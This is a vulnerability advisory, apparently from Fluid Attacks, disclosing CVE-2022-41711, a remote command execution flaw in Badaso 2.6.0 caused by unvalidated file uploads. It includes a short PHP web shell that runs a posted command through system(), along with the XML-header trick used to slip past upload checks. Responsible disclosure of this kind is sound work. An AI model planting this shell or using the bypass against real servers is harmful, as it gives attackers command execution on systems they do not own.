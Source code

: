 ```yaml
---
slug: advisories/harlow/
title: Badaso 2.6.0 - Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: harlow
product: Badaso 2.6.0 - RCE
date: 2022-10-18 13:00 COT
cveid: CVE-2022-41711
severity: 10.0
description: Badaso 2.6.0    -    Remote Command Execution (RCE)
keywords: Fluid Attacks, Security, Vulnerabilities, Badaso, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Badaso 2.6.0 - RCE                                                 |
| **Code name**         | [Harlow](https://en.wikipedia.org/wiki/Jack_Harlow)                |
| **Product**           | Badaso                                                             |
| **Affected versions** | Version 2.6.0                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-18                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 10.0                                                                                                                        |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41711](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41711)                                             |

## Description

Badaso version 2.6.0 allows an unauthenticated remote attacker to
execute arbitrary code remotely on the server. This is possible
because the application does not properly validate the data uploaded
by users.

## Vulnerability

This vulnerability occurs because the application does not correctly
validate files uploaded by users. Thanks to this, we uploaded a file
with malicious PHP code, instead of an image file.

## Exploitation

To exploit this vulnerability, the following file must be sent to the
server:

### exploit.php

```php
<?xml version="1.0" standalone="no"?>
<?php
    if($_POST && $_POST['password']==="AGSH635479302H235") {
        echo system($_POST['cmd']);
    }
?>
```

It is important to put an XML header before the malicious code to
bypass security controls.

## Evidence of exploitation

![RCE-badaso](https://user-images.githubusercontent.com/51862990/196501094-37997697-2346-42a6-891c-b2044cf8d0b8.gif)

![image](https://user-images.githubusercontent.com/51862990/196500837-06a8ce8a-3fff-42cc-b3b9-8aad023719f2.png)

## Our security policy

We have reserved the CVE-2022-41711 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Badaso 2.6.0

* Operating System: GNU/Linux

## Mitigation

An updated version of Badaso is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/uasoft-indonesia/badaso>

**Issue** <https://github.com/uasoft-indonesia/badaso/issues/802>

## Timeline

<time-lapse
  discovered="2022-10-05"
  contacted="2022-10-05"
  replied="2022-10-05"
  confirmed="2022-10-05"
  patched="2022-10-11"
  disclosure="2022-10-18">
</time-lapse>
